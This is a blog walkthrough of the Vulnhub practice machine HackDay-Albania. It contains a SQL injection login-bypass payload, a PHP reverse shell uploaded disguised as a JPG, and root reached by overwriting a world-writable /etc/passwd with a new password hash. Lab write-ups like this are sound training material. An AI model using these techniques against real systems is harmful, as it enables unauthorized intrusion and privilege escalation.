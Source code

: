 ```yaml
---
layout: single
title: "Vulnhub Write-up #2 : HackDay-Albania"
excerpt: "Writeup for 'HackDay-Albania' machine from vulnhub. This machine has quite an interesting walkthrough with beginner to intermediate level steps. Starts with a vulnerable bank from where we can drop a reverse shell and then write to /etc/passwd to escalate to root."
date: 2020-05-06
classes: wide
header:
  teaser: /assets/images/Stripe-Vulnhub/vulnhub.png
  teaser_home_page: true
categories:
  - vulnhub
  - infosec
tags:
  - sqli  
  - auth-bypass
  - write-perm
---
```



In this writeup we are looking at HackDay-Albania from Vulnhub.
I spent time to complete this VM as it took my atention as the first Albanian VM I have ever seen since I am an albanian too and would be interested to take a look. This machine has quite an interesting walkthrough with beginner to intermediate level steps.
Starts with a vulnerable bank from where we can drop a reverse shell and then write to /etc/passwd to escalate to root. Lets dig in:

## Enumeration 
As always starting with a nmap scan after setting up the image to virtualbox and powering it on we get those results :
```
root@kali:~# nmap -sC -A 192.168.1.6
Starting Nmap 7.80 ( https://nmap.org ) at 2020-05-06 20:00 CEST
Nmap scan report for 192.168.1.6
Host is up (0.00025s latency).
Not shown: 998 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 39:76:a2:f0:82:5f:1f:75:0d:e4:c4:c5:a7:48:b1:58 (RSA)
|   256 21:fe:63:45:2c:cb:a1:f1:b6:ba:36:dd:ed:d3:d9:48 (ECDSA)
|_  256 25:94:fb:00:c2:c0:ef:30:4a:02:d2:39:d5:57:17:a8 (ED25519)
8008/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-robots.txt: 26 disallowed entries (15 shown)
| /rkfpuzrahngvat/ /slgqvasbiohwbu/ /tmhrwbtcjpixcv/ 
| /vojtydvelrkzex/ /wpkuzewfmslafy/ /xqlvafxgntmbgz/ /yrmwbgyhouncha/ 
| /zsnxchzipvodib/ /atoydiajqwpejc/ /bupzejbkrxqfkd/ /cvqafkclsyrgle/ 
|_/unisxcudkqjydw/ /dwrbgldmtzshmf/ /exschmenuating/ /fytdinfovbujoh/
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: HackDay Albania 2016
MAC Address: 08:00:27:DC:2E:3D (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.9
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE
HOP RTT     ADDRESS
1   0.25 ms 192.168.1.6

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.65 seconds
```
Port 22 (SSH) and Port 8008 (HTTP) opened...
The HTTP Server comes up with a bunch of random word directories which seem weird to me.

I firstly tried to navigate to the HTTP server and look for something around : 

![message](https://raw.githubusercontent.com/pi0x73/pi0x73.github.io/master/assets/images/HackDay-Vulnhub/1.png)

This is the image presented in the root page alongside with a message written in Albania language which means :

`If it's me, I know where to go ;)`

Interesting...

After failing to grab any other possible information from the http server I randomly picked one and tried to navigate to it and ended up with the following result :
![wrong](https://raw.githubusercontent.com/pi0x73/pi0x73.github.io/master/assets/images/HackDay-Vulnhub/2.png)

Another image with a message in albanian which means : 

`is this the right directory? or am I loosing my time?`

I found this helpful because while randomly navigating to other directories this could help us identify the useful directory...
After some attempts `/unisxcudkqjydw/` returns with the following message :

``IS there any /vulnbank/ in there ??? ``

## Initial Foothold

I tried to navigate to ``/unisxcudkqjydw/vulnbank`` and it seemed like it was a valid directory with content on it :

![dir](https://raw.githubusercontent.com/pi0x73/pi0x73.github.io/master/assets/images/HackDay-Vulnhub/3.png)

Accessing ``client/`` shows the following site :

![client](https://raw.githubusercontent.com/pi0x73/pi0x73.github.io/master/assets/images/HackDay-Vulnhub/4.png)

A login page which is probably vulnerable to sql injection , however the usual manual injections didnt work so I decided to fire sqlmap against it :

```
root@kali:~# sqlmap -u http://192.168.1.6:8008/unisxcudkqjydw/vulnbank/client/login.php --forms
```

![sqlmap](https://raw.githubusercontent.com/pi0x73/pi0x73.github.io/master/assets/images/HackDay-Vulnhub/5.png)

``ctSS' RLIKE SLEEP(5)-- sohc`` and empty username seems to be legit for sqlmap... so why not for us? 
I went to try it to the login page and was able to succesfully bypass the login page :

![site](https://raw.githubusercontent.com/pi0x73/pi0x73.github.io/master/assets/images/HackDay-Vulnhub/6.png)

A upload option is presented to us in the main page which means : MONEY! 
I tried to upload a random thing and got the following warning : 

``After we got hacked we our allowing only image files to upload such as jpg , jpeg , bmp etc...``

My first thought was that we could make a reverse shell written in php and inject magic bytes in the beggining of the file so the server would identify it as a JPG file so I went ahead to try that :
```
root@kali:~# echo -e '\xff\xd8\xff\xdb' > fake.php.jpg
```

After injecting the magic byte to the ``fake.php.jpg`` we can go ahead and edit it with `vi` or any preferred text editor and paste the php reverse shell code.

Afterwards I tried to upload , however no luck with this method and no reverse shell was poped which made me confused...
I made a second attempt but this time I simply copied the php reverse shell code in a .jpg file format and tried to upload it :
```
root@kali:~# cp /usr/share/webshells/php/php-reverse-shell.php shelltest.jpg
```

After clicking `View Ticket` in the main page I finally got a response :

![site](https://raw.githubusercontent.com/pi0x73/pi0x73.github.io/master/assets/images/HackDay-Vulnhub/8.png)

Finally a reverse shell as `www-data` 

## Escalating to User
I quickly located the bank files in machine and went through config.php to see for a possible password reuse somewhere :

![site](https://raw.githubusercontent.com/pi0x73/pi0x73.github.io/master/assets/images/HackDay-Vulnhub/9.png)

Woaah!! Nice password over there , but not the correct one to `su` as ``taviso`` so I used the credentials to login to the mysql database and maybe find some other passwords :

![site](https://raw.githubusercontent.com/pi0x73/pi0x73.github.io/master/assets/images/HackDay-Vulnhub/11.png)

2 more useless passwords appeared which again didnt work , so I began to enumerate more...

I was trying to find writable permissions when I found something interesting :
```
www-data@hackday:/$ ls -la /etc/passwd
ls -la /etc/passwd
-rw-r--rw- 1 root root 1623 Oct 22  2016 /etc/passwd
```

I have write access over /etc/passwd and the first guess was to add a new password for user : ``taviso`` so I copied the contents of file in my machine , generated a new password for taviso : ``albania`` and re-uploaded the file to the machine :

```
root@kali:~# openssl passwd -1
Password: 
Verifying - Password: 
$1$JMlW1qnd$3BOKOiF3ePP4aJ.RuAf4e0
```
```
www-data@hackday:/tmp$ cp passwd /etc/passwd
cp passwd /etc/passwd
www-data@hackday:/tmp$ cat /etc/passwd
cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
taviso:$1$JMlW1qnd$3BOKOiF3ePP4aJ.RuAf4e0:1000:1000:Taviso,,,:/home/taviso:/bin/bash
www-data@hackday:/tmp$ 
```

Now I can simply try to su as taviso using the password we set :
![site](https://raw.githubusercontent.com/pi0x73/pi0x73.github.io/master/assets/images/HackDay-Vulnhub/12.png)

And ... we are in as Taviso!


## Root Privesc
The first basic enumeration for the next privesc ``sudo -l`` gave me enough to do the next step : 

```
taviso@hackday:/tmp$ sudo -l
sudo -l
[sudo] password for taviso: albania

Matching Defaults entries for taviso on hackday:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User taviso may run the following commands on hackday:
    (ALL : ALL) ALL
taviso@hackday:/tmp$ 
```

Seems like user ``Taviso`` has permission to run any command as sudo and seems like we can simply use ``sudo su`` to grab a root shell:

![site](https://raw.githubusercontent.com/pi0x73/pi0x73.github.io/master/assets/images/HackDay-Vulnhub/13.png)

I really liked this machine and I was so excited to try out an Albanian Machine. 


{% include support.html %}
